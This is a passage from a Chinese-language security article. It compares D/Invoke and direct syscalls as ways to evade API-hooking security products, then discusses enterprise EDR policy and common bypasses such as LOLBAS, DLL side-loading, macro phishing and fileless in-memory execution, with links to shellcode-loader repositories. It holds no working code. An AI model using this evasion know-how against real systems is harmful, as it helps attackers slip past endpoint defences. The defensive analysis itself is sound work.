1.  **调用层次不同**：D/Invoke 操作于 API 层之上，通过动态解析和调用 Win32 API 函数；而 SysCall 直接直接与操作系统内核通信，绕过了 Win32 API 层。
2.  **检测难度**：由于 Syscall 直接调用不通过常规 API 层，它更难被基于 API 监控的安全产品检测到。D/Invoke 虽然也能绕过一定的监控，但相比之下，直接使用系统调用的方式更隐蔽。
3.  **实现复杂度**：Syscall 直接调用需要更深入的系统内核知识，包括系统调用的具体实现和寄存器的正确设置。D/Invoke 虽然也需要理解 PE 结构和函数导出表，但比直接构造和执行系统调用更容易实现。
4.  **应用场景**：两者都是为了绕过监控和安全检测，但 Syscall 直接调用更适用于需要极高隐蔽性的场景。D/Invoke 则适用于需要动态调用多个 API，且不希望或不能静态链接到这些 API 的场景。

## 总结

国内的主流杀毒软件以及 EDR 默认虽然都会拦截 PowerShell 脚本，但是对可执行文件的分析、行为检测、内存扫描等方面可以存在一定的缺陷；与此同时企业通过 EDR（Endpoint Detection and Response）策略设置禁止任意 `.exe`、`.com`、`.scr`、`.cpl` 类型的可执行程序运行，以及禁止执行 `PowerShell` 脚本和 `.bat` 等脚本文件，无疑可以显著提高网络安全防护水平，减少恶意软件和攻击者利用这些常见文件类型和脚本语言执行攻击的机会。

然而，这种方法虽然强化了安全防护，但也牺牲了用户的部分体验，并且不能保证绝对的安全。攻击者可能会采用其他技术和方法绕过这些限制，实施命令与控制（C&C）攻击，包括但不限于：

-   **利用合法的系统工具**：攻击者可能利用 Windows 中合法的系统工具执行恶意代码，例如 [LOLBAS](https://lolbas-project.github.io/)（Living Off The Land），这些工具通常不会被防病毒软件或 EDR 策略禁止，因为它们是操作系统的一部分；
-   **白加黑攻击**：攻击者可能使用白文件加载恶意的 dll 来进行 C&C 攻击；又或者通过文件无害化技术（如利用宏、OLE 对象等）在文档文件中植入恶意代码。即便 `.exe`、`.com` 等直接可执行文件被禁止，通过诸如 Word 或 Excel 文档的宏脚本结合社工钓鱼攻击也能执行恶意代码；
-   **无文件攻击**：通过某些技术例如反射 DLL 注入、CobaltStrike 的 Execute-Assembly、Beacon Object File (BOF) ，攻击者可以直接在内存中执行恶意代码，绕过硬盘上的可执行文件限制的同时可以不拉起任何进程并绕过 API Hooking，这些攻击更难检测。

企业防御复杂网络威胁，特别是面对高级持续性威胁（APT）和命令与控制（C&C）攻击时，需要采取多层次、全面的安全策略，包括但不限于 EDR、防病毒软件、网络安全工具、安全意识培训、定期的安全审计和漏洞评估。通过这种综合性的安全策略，企业可以更有效地防御各种类型的威胁，包括复杂的 C&C 攻击。

## Reference

-   [https://www.cnblogs.com/lsgxeva/p/13997537.html](https://www.cnblogs.com/lsgxeva/p/13997537.html)
-   [https://xz.aliyun.com/t/2188](https://xz.aliyun.com/t/2188)
-   [https://github.com/Kara-4search/SysCall\_ShellcodeLoad\_Csharp](https://github.com/Kara-4search/SysCall_ShellcodeLoad_Csharp)
-   [https://github.com/Kara-4search/DInvoke\_shellcodeload\_CSharp](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp)
